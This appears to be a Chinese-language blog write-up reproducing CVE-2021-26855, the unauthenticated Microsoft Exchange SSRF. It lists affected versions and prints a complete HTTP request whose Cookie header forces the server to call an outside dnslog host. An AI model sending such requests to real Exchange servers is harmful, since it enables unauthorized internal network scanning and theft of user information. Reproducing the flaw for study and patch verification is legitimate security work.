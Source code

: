 **目录**

[漏洞说明](#t0 "漏洞说明")

[漏洞影响版本](#t1 "漏洞影响版本")

[漏洞复现](#t2 "漏洞复现")

* * *

### 漏洞说明

        Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。2021年03月3日，微软官方发布了Microsoft Exchange安全更新，披露了多个高危严重漏洞，其中：在 CVE-2021-26855 Exchange SSRF漏洞中，攻击者可直接构造恶意请求，以Exchange server的身份发起任意HTTP请求，扫描[内网](https://so.csdn.net/so/search?q=%E5%86%85%E7%BD%91&spm=1001.2101.3001.7020)，并且可获取Exchange用户信息。该漏洞利用无需身份认证。

### 漏洞影响版本

*   Exchange 2013 Versions < 15.00.1497.012
*   Exchange 2016 CU18 < 15.01.2106.013

*   Exchange 2016 CU19 < 15.01.2176.009
*   Exchange 2019 CU7 < 15.02.0721.013

*   Exchange 2019 CU8 < 15.02.0792.010

### 漏洞复现

数据包如下，访问url为：https://xxx.xxx.xxx.xxx/owa/auth/x.js，最主要的是Cookie信息，其lcxtdm.dnslog.cn是dnslog

```
GET /owa/auth/x.js HTTP/1.1
Host: 10.211.55.5
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11\_2\_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.192 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: X-AnonResource=true; X-AnonResource-Backend=lcxtdm.dnslog.cn/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3;
```


![](https://img-blog.csdnimg.cn/img_convert/fd5d5c441001570caf2a554aa78c4af8.png)

![](https://img-blog.csdnimg.cn/img_convert/8db7dd405cb37ea462e341c462bf4c08.png)

![](https://img-blog.csdnimg.cn/img_convert/df5b24cc4cf75d93cc96d660a87a8785.png)

![](https://img-blog.csdnimg.cn/img_convert/f5128c38b4d19bf317aecb9bf47c362f.png)

![](https://img-blog.csdnimg.cn/img_convert/0154683265ca557347ae670fd0f7c756.png)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)